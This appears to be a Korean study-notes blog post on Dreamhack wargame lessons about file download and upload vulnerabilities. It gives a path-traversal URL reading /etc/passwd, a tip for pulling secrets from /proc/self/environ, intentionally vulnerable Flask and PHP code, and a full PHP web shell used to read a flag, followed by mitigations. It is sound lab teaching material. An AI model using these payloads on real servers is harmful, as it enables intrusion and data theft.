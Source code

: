 ```yaml
---
layout : single
title : "STAGE8. File Vulnerability (2)"
tag: [dreamhack, webhacking, wargame]
sidebar:
    nav: "docs"
---
```


# 드림핵 웹 ServerSide : File Vulnerability (2)

-  [x] File Download Vulnerability 실습
-  [x] 함께 실습 : image-storage
-  [x] 혼자 실습 : file-download-1

## File Download Vulnerability
파일 다운로드 취약점은 웹 서비스를 통해 서버의 파일 시스템에 존재하는 파일을 내려받는 과정에서 발생하는 보안 취약점이며, 이용자가 다운로드할 파일의 이름을 임의로 정할 수 있을 때 발생한다. 웹 서비스는 이용자가 파일을 다운받거나, 이미지를 불러올 때 특정 디렉토리에 있는 파일만 접근하도록 해야하는데, Path Traversal을 이용한 파일 다운로드 취약점은 파일 이름을 직접 입력받아 임의 디렉토리에 있는 파일을 다운로드 받을 수 있는 취약점을 뜻한다. <br>

|파일 다운로드 취약점이 자주 발생하는 URL 패턴|
|:------|
|https://vulnerable-web.dreamhack.io/download/?filename=notes.txt|
|https://vulnerable-web.dreamhack.io/download/?filename=../../../../../../etc/passwd|
|https://vulnerable-web.dreamhack.io/images.php?fn=6ed0dd02806fa89e233b84f4.png|


### File Download Vulnerability 실습

아래는 실습 서버 코드이다. 환경 변수로부터 가지고 오는 Secret 값을 파일 다운로드 취약점을 이용해 획득해보자

```python
# ...
Secret = os.environ("Secret")
# ...
@app.route("/download")
def download():
    filename = request.args.get("filename")
    content = open("./uploads/" + filename, "rb").read()
    return content
# ...
```

프로세스의 환경변수는 /proc/self/environ에서 확인할 수 있으며, 이용자가 프로세스 호출 전 환경변수를 bash의 명령어로 설정했다면, .bash_history에서도 이를 알 수 있다. 아래는 proc/self/environ에서 Secret 값을 읽은 사진이다

<img src = "/images/webbackground/14.png"><br>


### File Vulnerability 방지하기
업로드 취약점을 막으려면 개발자는 업로드 디렉토리를 웹 서버에서 직접 접근할 수 없도록 하거나, 업로드 디렉토리에서 CGI가 실행되지 않도록 해야하며, 업로드 된 파일 이름을 그대로 사용하지 않고 basepath와 같은 함수를 통해 파일 이름을 검증한 후 사용해야 한다. 또한, 허용할 확장자를 명시하여 그 외 확장자는 업로드될 수 없도록 해야한다.
<br><Br>
다운로드 취약점을 막으려면 요청된 파일 이름을 basepath와 같은 함수를 통해 검증하거나, 파일 이름과 1:1 맵핑되는 키를 만들어 이용자로부터 파일 이름이 아닌 키를 요청하도록 해야한다

## 함께 실습 : image-storage

파일 업로드 취약점을 이용해 flag.txt에 있는 Flag 획득하기

### 웹 서비스 분석
##### 인덱스 페이지

list.php와 upload.php로 이동하는 메뉴 출력

```php
<li><a href="/">Home</a></li>
<li><a href="/list.php">List</a></li>
<li><a href="/upload.php">Upload</a></li>
```

##### 파일 목록 리스팅

list.php는 $directory의 파일 중 ., .., index.html을 제외하고 나열한다

```php
<?php
    $directory = './uploads/';
    $scanned_directory = array_diff(scandir($directory), array('..', '.', 'index.html'));
    foreach ($scanned_directory as $key => $value) {
        echo "<li><a href='{$directory}{$value}'>".$value."</a></li><br/>";
    }
?> 
```

##### 파일 업로드

upload.php는 이용자가 업로드한 파일을 uploads 폴더에 복사하며 이용자는 http://host1.dreamhack.games:[PORT]/uploads/[FILENAME] 를 통해 접근할 수 있다. 같은 이름의 파일이 존재한다면 already exists라는 메세지를 반환한다. 업로드할 파일에 대한 어떠한 검사도 진행하지 않으므로, 웹 셸 업로드 공격에 취약하다. 

```php
<?php
  if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if (isset($_FILES)) {
      $directory = './uploads/';
      $file = $_FILES["file"];
      $error = $file["error"];
      $name = $file["name"];
      $tmp_name = $file["tmp_name"];
     
      if ( $error > 0 ) {
        echo "Error: " . $error . "<br>";
      }else {
        if (file_exists($directory . $name)) {
          echo $name . " already exists. ";
        }else {
          if(move_uploaded_file($tmp_name, $directory . $name)){
            echo "Stored in: " . $directory . $name;
          }
        }
      }
    }else {
        echo "Error !";
    }
    die();
  }
?>
```

### 익스플로잇

아래와 같은 php 웹셸 작성 후 업로드

```php
<html><body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form><pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?></pre></body></html>
```

업로드가 끝나면, 저장된 위치를 다음과 같이 보여준다

<img src = "/images/wargame/12.png"><br>

위 경로로 이동하여 업로드 된 파일을 연다

<img src = "/images/wargame/13.png"><br>

시스템 명령어 cat /flag.txt 를 통해 flag.txt에 저장된 글을 읽어온다

<img src = "/images/wargame/14.png"><br>

##### 위와 같은 공격으로부터 서비스를 보호하려면 ?

파일 업로드와 관련된 코드에 여러 검사 로직을 추가해야한다. 이 중 대표적인 방법은 파일의 확장자를 제한하는 것이다. 웹 리소스는 크게 정적 리소스와 동적 리소스로 분류할 수 있으며, 정적 리소스는 이미지, 비디오와 같이 서버에서 실행되지 않는 리소스, 동적 리소스는 php, jsp와 같이 서버에서 실행되는 것들을 가리킨다. 동적 리소스의 확장자를 제한하면 파일 업로드 취약점을 통한 RCE(Remote Code Execution : 원격 코드 실행) 공격으로부터 서버를 보호할 수 있다. <br>

또 다른 방법은 AWS, Azure, GCP 등의 정적 스토리지를 이용하는 것이다. 이는 서버의 파일 시스템을 이용하지 않기 때문에 파일 업로드 취약점이 웹 서버 공격으로 이어지는 것을 방지할 수 있다.